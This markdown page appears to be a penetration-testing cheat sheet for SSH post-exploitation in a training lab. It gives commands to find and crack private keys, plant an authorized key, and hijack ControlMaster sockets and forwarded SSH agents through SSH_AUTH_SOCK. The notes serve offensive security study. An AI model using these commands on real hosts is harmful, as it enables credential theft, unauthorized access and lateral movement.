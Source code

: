 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: SSH
---
```


<span style="font-size: 35px; color:red"><b>SSH</b></span>

Look for unprotected SSH Keys:
```shell
find /home/ -name "id_rsa"
```

Once find, <span style="color:red">cat id_rsa</span> to see if it's encrypted. The "DEK-Info" declare the type of encryption used.
If encrypted, use <span style="color:red">SSH2JOHN</span> to transform it into hash and crack it with john/hashcat:
```shell
sudo john --wordlist=/usr/share/wordlists/rockyou.txt ./id_rsa.hash
```
If cracked, add your id_rsa to the authoryzed_keys after you get the SSH shell.

Also, check <span style="color:red">~/.bash_history</span> or <span style="color:red">~/.ssh/known_hosts</span> to see who connected recently (might be hashed, if so, nothing to do here).
&nbsp;

---
&nbsp;
<span style="font-size: 30px; color:white"><b>SSH Hijacking</b></span>

<span style="font-size: 25px; color:white"><b>With ControlMaster</b></span>
Use an existing ssh session using ControlMaster (functionality that allows a user to open multiple sessions).
Check <span style="color:red">~/.ssh/controlmaster/</span> to see if there's any socket in the form of <span style="color:red">user@domain:22</span>
If so, you can use it like:
```shell
ssh -S /home/user/.ssh/controlmaster/user\@domain\:22 user@domain
```
no password required!
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>With SSH-Agent</b></span>

SSH-Agent is a utility that keeps track of a user's private keys and allows them to be used without having to repeat their passphrases on every connection.
<span style="color:red">Client --> Intermediate Host --> Final Host</span>

Both Intermediate and Final Host need to have the same public key (<span style="color:red">ssh-copy-id -i ~/.ssh/id_rsa.pub user@domain</span> for both domains). 
- <span style="color:red">ForwardAgent yes</span> on <span style="color:red">~/.ssh/config</span>.
- <span style="color:red">AllowAgentForwarding yes</span> on <span style="color:red">/etc/ssh/sshd_config</span>.
- Start SSH_Agent: _eval <span style="color:red">ssh-agent</span>
- Add key to SSH-Agent: <span style="color:red">ssh-add</span>
Done, you can now connect to Intermediate Host and then from there to Final Host.

&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Exploitation</b></span>
If there's a connection to the <span style="color:red">Intermediate Host</span>, then it's exploitable (check with <span style="color:red">ps aux | grep ssh</span>).
To get ID (PID) value for the SSH processes: <span style="color:red">pstree -p offsec | grep ssh</span>. (just chose one of them).
Cat the process out to find the <span style="color:red">SSH_AUTH_SOCK</span> variable: 
```shell
cat /proc/<PID>/environ
```
Then <span style="color:red">SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380 ssh-add -l</span> and <span style="color:red">SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380 ssh offsec@linuxvictim</span>

